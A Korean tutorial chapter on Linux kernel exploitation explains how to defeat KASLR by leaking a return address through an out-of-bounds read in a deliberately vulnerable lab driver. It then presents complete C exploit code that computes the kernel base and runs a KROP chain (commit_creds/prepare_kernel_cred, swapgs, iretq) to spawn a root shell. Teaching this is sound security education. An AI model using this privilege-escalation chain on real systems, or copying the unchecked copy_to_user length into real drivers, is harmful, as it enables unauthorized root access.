



# 4-4. KASLR 우회하기 : 커널 정보 유출(Information Leak)

KASLR를 우회하려면 어떻게 해야 할까요? 방법은 간단합니다. 유저 영역 프로그램의 ASLR을 우회하는 방식과 완전히 똑같습니다!

커널 역시 사용자 영역 프로그램들의 ASLR/PIE 처럼 바이너리 자체가 메모리에 통째로 적재되는 방식이므로, 컴퓨터를 몇 번이고 재부팅해도 커널 내 함수들의 상대적인 거리(오프셋)는 변하지 않습니다.

따라서 커널에서 특정 데이터나 코드 영역의 실제 주소를 유출시킨다면, 해당 위치에서 원래 정해졌던 오프셋 값을 빼서 커널이 적재된 시작 주소를 얻을 수 있습니다. 이렇게 얻은 주소로 필요한 함수와 가젯들의 실제 주소를 계산하면 됩니다.

## 커널 프로세스 내부의 값은 어떻게 유출시키나요?

그렇다면 도데체 사용자 영역과 독립된 커널 영역에서 어떻게 정보를 유출해야 할까요?

해커들은 절대 한 가지 취약점만 보지 않습니다. 기존의 시스템의 한 곳에서 취약점을 찾았으면, **해당 위치에서 얻은 정보를 다른 취약점에서 쓰는 등** 여러 취약점을 연계(Vulnerability Chaining)합니다.

이번 실습 환경의 `vuln.ko`에는 여러분을 위해 새로운 취약점을 하나 더 숨겨두었습니다. 사용자가 `read` 시스템 호출을 사용할 때 실행되는 `dev_read()` 함수입니다. 내부 구조를 살펴볼까요?

```c
/* buffer는 사용자가 값을 받아갈 유저 영역의 주소이며, len은 읽어들일 길이입니다. */
static ssize_t dev_read(struct file* filep, char __user* buffer, size_t len, loff_t* offset) {
    /* 커널 영역에 저장된 64바이트짜리 문자열 데이터 */
    char k_buffer[64]="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789=";

    printk(KERN_INFO "[VULN] Copied %zu bytes to user\n", len);
    /* 🚨 [취약점 발생] 커널 영역의 데이터를 유저 영역으로 길이 제한 없이 복사합니다! */
    if (_copy_to_user(buffer, k_buffer, len)) {
        return -EFAULT;
    }

    return len;
}
```

취약점이 눈에 보이시나요? 맞습니다! `_copy_to_user`는 커널 스택의 데이터를 밖으로 '전달하는(Read)' 역할을 합니다. 이 함수를 통해 사용자가 커널 영역의 데이터를 받아서 읽을 수 있습니다.

만약 해커가 `len` 값을 `k_buffer`의 크기인 64바이트보다 크게 설정한다면 어떻게 될까요? 커널은 길이 검증을 하지 않으므로, 64바이트 문자열 뒤에 저장된 커널 스택 메모리의 다른 값들까지 모두 읽어서 유저 영역으로 전송합니다.(이것을 Out-of-Bounds(OOB) Read 취약점이라고 부릅니다.)

## 어떤 값을 읽어야 할까?

그러면 커널 영역의 데이터를 유출시키고, 필요한 값을 어떻게 골라낼까요? 아래 사진을 보세요.



위 사진은 `_copy_to_user`가 실행되기 직전, 커널 스택의 단면을 디버거로 포착한 모습입니다. 이 수많은 값들 중 해커에게 필요한 값이 보이시나요?

정답은 스택의 [rsp+0x50] 위치에 빨간색 글자로 출력된 `0xffffffffab2d54d7` 이라는 값입니다! (이 값은 KASLR에 의해 부팅할 때마다 매번 다른 `0xffffffff...` 형태로 바뀐다는 점을 명심하세요.)

왜 이런 값이 스택에 들어있을까요? 프로그램이 함수를 호출하면, 원래 자리로 돌아가기 위해 반드시 **반환 주소(Return Address)를 스택에 밀어 넣습니다.** 즉, 저 값은 `dev_read` 함수를 호출했던 커널 내부의 어떤 상위 함수의 주소인 것입니다!

그런데 디버거 화면을 보니 저 주소가 도대체 어느 함수의 어떤 영역인지 이름(Symbol)이 빠져있네요? 이 주소의 정체를 알아야 오프셋을 계산해서 커널이 적재된 시작 주소를 구할 수 있을 텐데 말이죠.

이제 이 낯선 주소가 도대체 어떤 함수 영역에 해당하는지 찾아볼 차례입니다!

## 어떤 함수가 `dev_read`를 호출했을까?

우리가 read 시스템 호출로 `dev_read`를 호출한 것을 기억하시나요?

시스템 호출이 발생하면 먼저 시스템 호출의 시작점인 `entry_SYSCALL_64`가 열리고, `do_syscall_64`를 거쳐 커널 내부의 진짜 읽기 함수인 `sys_read`가 호출됩니다. 그리고 이 함수는 내부적으로 파일 시스템 처리를 총괄하는 `vfs_read`라는 함수를 호출하게 됩니다.

> **우리가 자주 사용하는 표준입력(stdin)도 `vfs_read`를 거칩니다.**
>
> Ubuntu 등 리눅스에서 표준입력의 파일 서술자(fd 0번)는 터미널 내 장치인 `/dev/tty`를 가리킵니다. 이 드라이버에 대응하는 read 함수가 실행되어 사용자의 키보드 입력을 읽어옵니다!
>
> 커널 모듈의 기본 구조는 1-1 장을 참고해 주세요.

이 `vfs_read` 함수가 우리가 만든 모듈(`vuln.ko`)의 `dev_read`를 호출하는 구조입니다. 즉, `dev_read`가 실행을 마치고 원래 자리로 돌아가기 위해 스택에 남겨둔 반환 주소의 정체는 바로 `vfs_read` 함수 내부의 어느 위치입니다!

이제 이 힌트를 가지고 IDA Free를 열어 디버거 화면에 찍혔던 의문의 주소(`0xffffffff...`)가 정확히 어디인지 찾아봅시다.

### 주소를 찾는 요령

4-3장에서 KASLR이 적용되더라도 메모리 정렬(Alignment) 단위 때문에 <b>"16진수의 하위 5자리는 절대 변하지 않는다"</b>고 했던 것을 기억하시나요?

유출된 주소 `0xffffffffab2d54d7`에서 끝자리 `d54d7`은 KASLR이 아무리 시작 주소를 섞어도 절대 변하지 않는 이 코드만의 지문입니다. 이 지문을 바탕으로 IDA에서 `vfs_read` 함수 주변을 샅샅이 뒤져보면...



찾았습니다! KASLR이 섞이지 않은 원본 `vmlinux` 바이너리(IDA) 상에서 정확히 `d54d7`로 끝나는 `vfs_read`에서의 주소이자 디버거 화면에 나오는 코드와 일치하는 곳, 바로 `0xffffffff814d54d7`(`vfs_read+0xA7`) 위치입니다!

KASLR이 적용되기 전 원본 커널의 기준 주소가 `0xffffffff81000000`임을 고려하면, 우리가 찾은 이 명령어의 변위차는 다음과 같이 계산할 수 있습니다. 

식 : `(vfs_read + 0xA7) - (__START_KERNEL) = 0xffffffff814d54d7 - 0xffffffff81000000 = 0x4d54d7`

이제 이 값을 스택에서 구한 `(vfs_read + 0xA7)`의 실제 주소에서 빼면 다음과 같습니다.

식 : `0xffffffffab2d54d7 - 0x4d54d7 = 0xffffffffaae00000`

그러면 커널이 처음 시작 주소로부터 얼마나 떨어져 있는지도 알 수 있습니다.

식 : `(커널 시작 주소) = __START_KERNEL + (무작위 값)`, 위에서 구한 값들을 대입하면 `0xffffffffaae00000 = 0xffffffff81000000 + (무작위 값(계산됨!))`

이렇게 커널이 처음에 메모리에 적재될 때, `__START_KERNEL`에 무작위로 더해진 값(오프셋)을 계산할 수 있답니다! 이것을 계산했으면, 우리가 3장에서 구한 KROP 체인에서 하드코딩했던 각 주소에 이 오프셋을 더하면 모든 함수와 가젯이 제 위치에 들어가게 됩니다. KASLR이 무력화 되었으니, 이제 익스플로잇을 할 시간입니다!

## 익스플로잇 코드 완성하기

아래의 익스플로잇 코드는 1단계(정보 유출로 커널 베이스 주소 구하기)와 2단계(KROP 체인 엮어서 root 셸 획득하기)를 한 번에 연속으로 진행합니다.

KROP 체인을 만드는 2단계의 원리는 3장과 동일하므로, 커널 베이스 주소와 그 변위차를 계산하는 부분에 집중해 코드를 살펴봅시다!

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#define NUM 88

/* 권한을 상승시킨 후에는 이 영역으로 돌아와서 셸을 획득합니다. */
void win_shell(void) {
    printf("[*] YES!!!!! I GOT A ROOT SHELL!!!!!\n");
    execl("/bin/sh", "sh", NULL);
}

int main() {

    int fd = open("/dev/vuln", O_RDWR);
    if (fd < 0) {
        perror("[-] Failed to open /dev/vuln");
        return -1;
    }

    // 1. 커널 스택 정보 유출 (Info Leak)
    unsigned long kernel_stack[25] = { 0 };
    read(fd, kernel_stack, 200); // OOB Read를 통해 커널 내부 스택을 유출합니다.

    // 유출된 스택 배열에서 반환 주소(vfs_read+0xA7)를 꺼내옵니다.
    // (디버거에서 확인한 [rsp+0x50]은 80바이트 뒤이므로, 8바이트 배열 기준 인덱스 10에 해당합니다!)
    // 이후 유출된 주소에서 고정 오프셋을 빼서 진짜 커널 Base 주소를 구합니다.
    unsigned long kernel_base = kernel_stack[10] - 0x4d54d7;

    // 원본 Base 주소와의 차이(Offset)를 구합니다. 이 값만큼 모든 가젯이 이동했습니다.
    unsigned long offset = kernel_base - 0xffffffff81000000;

    printf("[*] Kernel Base = 0x%lx\n", kernel_base);
    printf("[*] Offset = 0x%lx\n", offset);

    // 이후 KROP 과정은 3장과 같습니다.
    char payload[300] = { 0 };
    memset(payload, 'A', NUM);

    /* 이번에는 하드코딩된 원본 주소에 방금 구한 KASLR offset을 전부 더해줍니다! */
    unsigned long prepare_kernel_cred_addr = 0xffffffff812ca190 + offset;
    unsigned long commit_creds_addr = 0xffffffff812c9ee0 + offset;
    unsigned long init_task_addr = 0xffffffff82c0ca00 + offset;
    unsigned long pop_rdi = 0xffffffff812a8cec + offset; // pop rdi; ret;
    unsigned long xchg = 0xffffffff81e39b57 + offset; // xchg rax, rdi ; dec  [rax+0x39] ; ret ;
    unsigned long swapgs = 0xffffffff810017c0 + 0x98 + offset; // paranoid_entry + 0x98 (swapgs; ret;)
    unsigned long iretq = 0xffffffff81000080 + 0x164a + offset; // entry_SYACALL_64 + 0x164a (iretq)

    memcpy(payload + NUM, &pop_rdi, 8);
    memcpy(payload + NUM + 8, &init_task_addr, 8);
    memcpy(payload + NUM + 16, &prepare_kernel_cred_addr, 8);
    memcpy(payload + NUM + 24, &xchg, 8);
    memcpy(payload + NUM + 32, &commit_creds_addr, 8);
    memcpy(payload + NUM + 40, &swapgs, 8);
    memcpy(payload + NUM + 48, &iretq, 8);

    unsigned long iretq_stack[5] = {0};
    unsigned long fake_stack[2048] = {0}; // 가짜 스택 공간입니다.
    iretq_stack[0] = (unsigned long)&win_shell; // RIP : 복귀하자마자 셸을 실행하게 해 줍니다.
    iretq_stack[1] = 0x33; // CS : 리눅스 기본값
    iretq_stack[2] = 0x202; // RFLAGS : 인터럽트 허용 설정
    iretq_stack[3] = (unsigned long)(fake_stack) + 2048; // RSP : 위에서 만든 가짜 스택의 끝 주소
    iretq_stack[4] = 0x2b; // SS : 리눅스 기본값

    memcpy(payload + NUM + 56, &iretq_stack, 40);
    
    printf("[+] Sending exploit payload...\n");

    // 공격하기
    write(fd, payload, NUM + 96);

    close(fd);
    return 0;
}
```

이제 실험 환경에 있는 `exploit`을 실행해 보세요.



**성공입니다!** 커널 내부의 스택 데이터를 유출하고, 이를 통해 KASLR을 멋지게 무력화했습니다. 실습 환경에 있는 `/tmp/kallsyms`를 읽어 비교해 보아도, 우리가 커널 영역의 시작 주소를 바르게 계산했음을 볼 수 있습니다. 실험 환경을 몇 번이고 재부팅해도 `exploit`은 바르게 동작한답니다. 여러분의 커널 해킹 실력이 점점 늘고 있습니다!

## 🏁 4장을 마치며

현재까지 우리는 실습을 진행하며 오직 <b>'스택 버퍼 오버플로우'</b>라는 단 하나의 고전적인 취약점만을 다루었습니다.

이 단순한 취약점 하나만으로도 이렇게나 강력한 공격(KROP, Info Leak)이 가능하며, 이 하나를 막기 위해 SMEP, KASLR과 같은 보호 기법들을 도입해야만 했습니다. 신기하지 않나요? 이것이 바로 이 취약점이 시대를 막론하고 보안의 핵심으로 다뤄지는 이유입니다.

앞으로 소개할 방패들 역시 이 스택 기반 공격을 막기 위해 탄생했습니다.

다음 5장에서는 이런 스택 공격을 방어하기 위해 커널이 코드를 첨가해서 설정한 보호 기법, <b>스택 카나리 (SSP, Stack Smashing Protector)</b>를 만나보겠습니다!